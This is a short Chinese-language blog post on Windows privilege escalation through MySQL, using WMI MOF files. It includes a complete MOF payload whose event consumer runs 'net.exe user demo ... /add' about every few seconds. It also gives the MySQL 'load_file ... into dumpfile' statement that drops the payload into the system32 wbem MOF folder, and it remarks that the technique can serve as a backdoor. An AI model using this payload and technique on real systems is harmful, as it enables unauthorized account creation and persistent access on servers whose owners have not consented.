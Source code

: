 ```yaml
---
layout: post
title: "Mysql mof 提权小结"
subtitle: "Mysql mof 提权小结"
date: 2019-08-26
author: ppbibo
category: 提权
finished: true
---
```


[TOC]

## 0x1 前言

Windows管理规范(WMI)提供了如下三种方法编译WMI存储库的托管对象格式（MOF）文件：

1. 将MOF文件执行为命令行参数及`Mofcomp.exe`文件
2. 使用`IMofCompiler`借口和`$CompileFile`方法
3. 拖放到`%SystemRoot%\System32\Wbem\MOF`文件夹下的MOF文件中

**使用MOF提权的前提是当前root账户可以复制文件到`%SystemRoot%\System32\Wbem\MOF`目录下。**



## 0x2 利用技巧

新建文件 `nullevt.mof`

```bash
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter
 {
 EventNamespace = "Root\\Cimv2";
 Name = "filtP2";
 Query = "Select * From __InstanceModificationEvent "
 "Where TargetInstance Isa \"Win32_LocalTime\" "
 "And TargetInstance.Second = 5";
 QueryLanguage = "WQL";
 };

instance of ActiveScriptEventConsumer as $Consumer
 {
 Name = "consPCSV2";
 ScriptingEngine = "JScript";
 ScriptText =
 "var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user demo xxxxx /add\")";
 };

instance of __FilterToConsumerBinding
 {
 Consumer = $Consumer;
 Filter = $EventFilter;
 };
```

我们将 `nullevt.mof` 脚本上传到一个可读可写的目录下，然后执行Mysql 语句，导出到 `%SystemRoot%\System32\Wbem\MOF` 目录下，利用的就是该目录下每分钟会在特定的时间去执行一次的特性，来执行我们的 DOS 命令。

![mof_1](/static/img/mof_1.png)



执行SQL语句 **RT**：

```mysql
select load_file("C:\\phpStudy\\PHPTutorial\\WWW\\nullevt.mof") into dumpfile 'c:\\windows\\system32\\wbem\\mof\\nullevt.mof'
```

![mof2](/static/img/mof_2.png)

导入后，系统会自动运行该文件。

运行成功后查看已经成功添加了 `demo` 用户

![udf_3](/static/img/udf_3.png)



## 0x3 总结

1. 操作系统版本不宜太高，win7 和 2008 测试失败，2003测试成功（因为需要访问到system32中目录）或说mysql启动身份具有权限去访问和写入`C:/windows/system32/mof`目录。

2. **原理：**

   放置在`C:/windows/system32/mof`目录下的`nullevt.mof`文件每个五秒钟会被自动执行并且消失，如果后续没有创建新的该文件，那么每五秒会循环执行之前的nullevt.mof中内容，那么只需要将恶意代码写入该文件中即可。

3. 解决循环创建用户

   `net stop winmgmt`

   删除文件夹下内容 `c:/windows/system32/wbem/repository`

   `net start winmgmt`

   个人感觉可以当作一个后门来使用，不过我在测试的时候调用 net.exe 的时候杀毒软件会拦截。